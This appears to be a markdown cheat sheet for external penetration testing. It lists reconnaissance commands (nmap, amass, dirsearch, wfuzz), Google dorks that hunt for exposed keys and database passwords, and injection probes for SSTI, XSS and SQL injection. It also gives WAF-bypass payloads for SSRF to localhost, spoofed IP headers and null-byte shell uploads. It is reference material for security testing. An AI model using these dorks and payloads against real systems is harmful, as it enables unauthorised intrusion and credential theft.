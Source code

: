 # External Penetration Testing

## `Tools`

```text
amass
nmap
gobuster
nikto
Nessus
Burp Suite
```

## `Passive discovery` 

get js script

```bash
go get github.com/tomnomnom/waybackurls
waybackurls internet.org | grep "\.js" | uniq | sort
```

dork on domain

```bash
inurl:example.com intitle:"index of"
inurl:example.com intitle:"index of /" "*key.pem"
inurl:example.com ext:log
inurl:example.com intitle:"index of" ext:sql|xls|xml|json|csv
inurl:example.com "MYSQL_ROOT_PASSWORD:" ext:env OR ext:yml -git
```

get url in file

```bash
cat file | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
in js file => curl http://host.xx/file.js | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*"*
```

## `Active discovery` 

### Services

```bash
nmap -sS -sV -O --top-ports 1000 --script=banner,nse,http-head
```

### Subdomains

amass

```bash
amass enum -ip -brute -active -d <domain> 
amass viz -maltego -d <domain> -o mydir
```

check if subdomain exist

```bash
cat alive-subdomains.txt | parallel -j50 -q curl -w 'Status:%{http_code}\t Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk
```

### Vhosts

```bash
nmap --script http-vhosts -p 80,8080,443 <target>
Burp Intruder (Host header)
```

### Urls

```bash
./dirsearch.py -u <target> -e php,html,js,xml -x 500,403
wfuzz -c -z file,/root/wordlist.txt --hc 404 <target>/FUZZ
Burp Pro (Content Discovery)
```

Found asset and params

```bash
assetfinder example.com | gau | egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)' | while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Z0-9]+" | sed -e 's,'var','"$url"?',g' -e 's/ //g' | grep -v '.js' | sed 's/.*/&=xss/g'); echo -e "\e[1;33m$url\n\e[1;32m$vars"; done
```

link finder

```bash
https://github.com/GerbenJavado/LinkFinder
 python linkfinder.py -i https://example.com -d -o cli
```

URL finder

```bash
wget -qO- https://stackoverflow.com/ | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u
```

Dir Listing dump

```bash
wget -r --no-parent target.com/dir
```

## Injections

### SSTI

```bash
"<%= 7 * 7 %>"@example.com 
test+(${{7*7}})@example.com
```

### XSS

```bash
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

### SQLI

For http://site.com/?q=INJECT_HERE

```bash
/?q=1
/?q=1'
/?q=1"
/?q=[1]
/?q[]=1
/?q=1`
/?q=1\
/?q=1/*'*/
/?q=1/*!1111'*/
/?q=1'||'asd'||'   <== concat string
/?q=1' or '1'='1
/?q=1 or 1=1
/?q='or''='
```

## ** Bypass WAF **


SSRF localhost

```bash
http://127.1/
http://0000::1:80/
http://[::]:80/
http://2130706433/
http://whitelisted@127.0.0.1
http://0x7f000001/
http://017700000001
http://0177.00.00.01
```

X-Header

```bash
Accept: application/json, text/javascript, */*; q=0.01 
Host : localhost
X-Originating-IP: IP
X-Forwarded-For: IP
X-Remote-IP: IP
X-Remote-Addr: IP
X-Client-IP: IP
X-Host: IP
X-Forwared-Host: IP
```

NullByte

```bash
file.jpg%00shell.php
shell.php%00file.jpg
shell.php%00.jpg
```

## `Burp Extenders`

Extension|Description
---|----
`Retire.js`|[find vulnerable JavaScript libraries](https://github.com/PortSwigger/retire-js)